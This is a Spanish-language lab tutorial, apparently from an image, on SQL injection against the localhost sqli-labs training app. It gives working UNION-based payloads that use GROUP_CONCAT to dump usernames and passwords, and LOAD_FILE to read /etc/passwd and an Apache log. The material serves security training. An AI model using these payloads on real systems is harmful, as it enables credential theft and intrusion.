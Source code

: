 ## **🔹 PRÁCTICA 15: Uso de `GROUP_CONCAT()` para Extraer Múltiples Registros**

📌 **Objetivo:** Extraer múltiples datos en una sola consulta SQL.

### **🔹 Explicación**

El operador `GROUP_CONCAT()` permite **combinar resultados en una sola línea**.

### **🔹 Paso a Paso**

1. Encuentra la cantidad de columnas:

   ```html
   http://localhost/sqli-labs/Less-1/?id=-1 ORDER BY 3 --+
   ```
   
2. Extrae usuarios y contraseñas con `GROUP_CONCAT()`:

   ```html
   http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,GROUP_CONCAT(username,':',password SEPARATOR ' | '),3 FROM users --+
   ```

3. Si la consulta es exitosa, verás los datos separados por `|`.

📌 **💡 Consejo:** Usa `GROUP_CONCAT()` con `information_schema.columns` para listar todas las columnas de una base de datos.

------

## **🔹 PRÁCTICA 16: Extracción de Archivos con `LOAD_FILE()`**

📌 **Objetivo:** Leer archivos del servidor utilizando SQLi.

### **🔹 Explicación**

Si `LOAD_FILE()` está habilitado, podemos leer archivos del sistema.

### **🔹 Paso a Paso**

1. Prueba si `LOAD_FILE()` está disponible:

   ```html
   http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,LOAD_FILE('/etc/passwd'),3 --+
   ```

2. En Windows, prueba con:

   ```html
   http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,LOAD_FILE('C:/xampp/apache/logs/access.log'),3 --+
   ```
   
3. Si el contenido del archivo aparece, el servidor es vulnerable.
